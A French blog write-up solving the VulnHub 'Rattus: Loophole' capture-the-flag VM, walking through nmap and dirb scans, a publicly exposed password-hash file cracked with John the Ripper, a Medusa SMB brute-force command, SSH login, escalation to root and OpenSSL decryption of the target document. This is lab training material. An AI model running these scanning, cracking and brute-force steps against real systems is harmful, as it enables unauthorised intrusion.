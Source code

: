 ```yaml
---
title: "Solution du CTF Rattus: Loophole de VulnHub"
tags: [CTF, VulnHub]
---
```


Ce message s'autodétruira dans 5, 4, 3, 2, 1
--------------------------------------------

Le CTF [Loophole](http://vulnhub.com/entry/rattus_loophole,27/) propose de s'introduire sur un système sur fond de mission anti-terrorisme :  

> We suspect that someone inside Rattus labs is working with known terrorist group. Your mission is to infiltrate into their computer network and obtain encrypted document from one of their servers.
> Our inside source has told us that the document is saved under the name of Private.doc.enc and is encrypted using OpenSSL encryption utility. Obtain the document and decrypt it to complete the mission.

La première difficulté de ce challenge (les mauvaises langues diront la seule), c'est de parvenir à configurer la VM car l'ISO fournit n'utilise pas DHCP et a une adresse IP statique en 10.8.7.  

Finalement, il faudra seulement aller dans *Fichier > Paramètres > Réseau* dans *VirtualBox* et créer un réseau privé hôte qui reprend ces infos (j'ai mis .4 et ça a marché, mais dans la logique, il faut sans mettre .0 si c'est pour le réseau) :  

![Congiguration VirtualBox](/assets/img/vboxnet0.png)

Après on peut lancer Nmap pour trouver l'adresse de notre future victime :  

```console
$ nmap -e vboxnet0 -sP 10.8.7.0/29 -T4
Starting Nmap 6.40 ( http://nmap.org ) at 2014-04-05 09:34 CEST
Nmap scan report for 10.8.7.2
Host is up (0.00017s latency).
MAC Address: 08:00:27:8B:03:D7 (Cadmus Computer Systems)
Nmap done: 8 IP addresses (1 host up) scanned in 16.75 seconds
```

On pointe directement notre navigateur dessus et on trouve le site web de *Rattus Labs* qui contient différents contacts :  

![Rattus Labs](/assets/img/rattus.png)

```
Nadia Vlad, CEO.  

Sr. system administrator : Tom Skies - tskies@rattus.lab  

Network engineer : Jay Summer- jsummer@rattus.lab  

Mark Hog - mhog@rattus.lab  
```

Il y a aussi une page `phpinfo` publiquement accessible. La configuration est plutôt laxiste, permet l'inclusion distante par exemple. Le serveur web tourne en nobody.  

Il y a un sacré nombre de modules PHP, mais on verra plus tard que cette info n'est d'aucune utilité.  

On lance un `dirb` sur le serveur *Apache* (1.3.31 avec PHP/4.4.4) :  

```console
$ ./dirb http://10.8.7.2/ wordlists/big.txt 

-----------------
DIRB v2.21
By The Dark Raver
-----------------

START_TIME: Sat Apr  5 13:43:18 2014
URL_BASE: http://10.8.7.2/
WORDLIST_FILES: wordlists/big.txt

-----------------

GENERATED WORDS: 20458                                                         

---- Scanning URL: http://10.8.7.2/ ----
==> DIRECTORY: http://10.8.7.2/Images/
+ http://10.8.7.2/cgi-bin/ (CODE:403|SIZE:274)
+ http://10.8.7.2/garbage (CODE:200|SIZE:288)
+ http://10.8.7.2/index (CODE:200|SIZE:3001)
+ http://10.8.7.2/info (CODE:200|SIZE:37650)
+ http://10.8.7.2/status (CODE:200|SIZE:2456)
+ http://10.8.7.2/~operator (CODE:403|SIZE:275)
+ http://10.8.7.2/~root (CODE:403|SIZE:271)

---- Entering directory: http://10.8.7.2/Images/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

-----------------
DOWNLOADED: 20458 - FOUND: 7
```

Surprise quand on regarde le fichier `garbage` :  

```
root:$1$x2YBL0KB$E7QI7AF9ZeiqcfMRQ4KZ11:15018:0:::::
smmsp:!!:9797:0:::::
mysql:!!:9797:0:::::
rpc:!!:9797:0:::::
sshd:!!:9797:0:::::
apache:!!:9797:0:::::
nobody:!!:9797:0:::::
mhog:$1$ZQAbXwf3$TgcNjljKW.2tlJw4OICDr1:15019:0:::::0
tskies:$1$ZvNtdn0x$ck5hnAwXg.OLQPOtg28Hb.:15019:0:::::0
```

On lance *John The Ripper* qui retourne illico un premier mot de passe :  

```
Loaded 3 password hashes with 3 different salts (FreeBSD MD5 [128/128 AVX intrinsics 12x])
mhog             (mhog)
```

On laisse *JTR* tourner puis on passe à autre chose voir si on trouve autre chose d'intéressant. *Metasploit* a deux modules en rapport avec `mod_negotiation` mais ils se révèlent sans intérêt dans notre cas.  

On lance un scan Nmap de la cible (quand même) :  

```
Starting Nmap 6.40 ( http://nmap.org ) at 2014-04-05 13:26 CEST
Nmap scan report for 10.8.7.2
Host is up (0.00012s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 4.4 (protocol 1.99)
|_auth-owners: ERROR: Script execution failed (use -d to debug)
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
|_sshv1: Server supports SSHv1
80/tcp  open  http        Apache httpd 1.3.31 ((Unix) PHP/4.4.4)
|_auth-owners: ERROR: Script execution failed (use -d to debug)
| http-methods: Potentially risky methods: PUT DELETE CONNECT PATCH PROPFIND PROPPATCH MKCOL COPY MOVE LOCK UNLOCK TRACE
|_See http://nmap.org/nsedoc/scripts/http-methods.html
|_http-title: Loophole - Rattus labs
113/tcp open  ident?
|_auth-owners: ERROR: Script execution failed (use -d to debug)
139/tcp open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
|_auth-owners: ERROR: Script execution failed (use -d to debug)
445/tcp open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
|_auth-owners: ERROR: Script execution failed (use -d to debug)
MAC Address: 08:00:27:8B:03:D7 (Cadmus Computer Systems)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.13 - 2.6.32
Network Distance: 1 hop

Host script results:
|_nbstat: NetBIOS name: LOOPHOLE, NetBIOS user: , NetBIOS MAC: 
| smb-security-mode: 
| Account that was used for smb scripts: guest
| User-level authentication
| Plaintext passwords required (dangerous)
|\_ Message signing supported
|\_smbv2-enabled: Server doesn't support SMBv2 protocol

TRACEROUTE
HOP RTT ADDRESS
1 0.12 ms 10.8.7.2
```

*Metasploit* dispose de plusieurs exploits Samba, mais ils sont trop vieux ou inefficaces par rapport au système.  

Est-ce qu'on peut faire quelque chose avec l'accès au Samba ?  

```console
$ nmblookup -A 10.8.7.2
Looking up status of 10.8.7.2
        LOOPHOLE        <00> -         B 
 LOOPHOLE <03> - B 
 LOOPHOLE <20> - B 
 ..__MSBROWSE__. <01> -  B 
 WORKGROUP <1d> - B 
 WORKGROUP <1e> -  B 
 WORKGROUP <00> -  B 

 MAC Address = 00-00-00-00-00-00

$ smbclient -L LOOPHOLE -N
Anonymous login successful
Domain=[WORKGROUP] OS=[Unix] Server=[Samba 3.0.23c]
tree connect failed: NT_STATUS_INSUFFICIENT_RESOURCES

$ smbclient -L LOOPHOLE -U mhog%mhog
Server requested PLAINTEXT password but 'client plaintext auth = no' or 'client ntlmv2 auth = yes'
session setup failed: NT_STATUS_ACCESS_DENIED
```

On rajoute quelques lignes dans la section `global` de notre `smb.conf` :  

```
client lanman auth = Yes
client plaintext auth = Yes
client ntlmv2 auth = No
```

Le changement n'est pas vraiment mieux :  

```console
$ smbclient -L LOOPHOLE -U mhog%mhog
session setup failed: NT_STATUS_LOGON_FAILURE
```

*Medusa* a un module SMB, on tente d'obtenir un accès (par exemple sur le compte `operator` trouvé par `dirb`) :  

```bash
medusa -h 10.8.7.2 -u operator -P john/wordlists/password.lst -M smbnt
```

Toujours bredouille :( On revient à nos moutons et on tente une connexion en SSH avec le compte `mhog` : et bingo ça passe !  

![ssh access as mhog](/assets/img/rattus2.png)

Cliffhanger Linux
-----------------

Comme d'habitude on fouille dans les processus, permissions sur les fichiers et binaires, configuration des services... rien d'intéressant.  

On teste quelques exploits pour le kernel mais aucun n'aboutit. Au passage, on est sur un live-CD *Slax* donc `/tmp` n'est pas writable (comme la plupart du FS). Ça oblige à travailler dans `/dev/shm` et définir la variable d'environnement `TMPDIR` à ce répertoire pour `gcc`.  

On revient sur *JTR* que l'on stoppe et que l'on relance avec [une wordlist béton](http://d4n3ws.polux-hosting.com/2014/02/26/mega-wordlist/).  

Cette fois les pass restants tombent en 8 minutes :  

```
albatros         (root)
nostradamus      (tskies)
```

On passe root via su et on trouve le fichier `Private.doc.enc` dans le home de l'utilisateur `tskies`.  

On retrouve la commande de chiffrement dans son `.bash_history` :  

```bash
openssl enc -aes-256-cbc -e -in Private.doc -out Private.doc.enc -pass pass:nostradamus
```

Le déchiffrement est aisé :  

```bash
openssl enc -aes-256-cbc -d -in Private.doc.enc -out Private.doc -pass pass:nostradamus
```

On ouvre ça avec *LibreOffice* :  

![Document confidentiel](/assets/img/rattus3.png)

Et un de plus !

*Published April 05 2014 at 17:23*
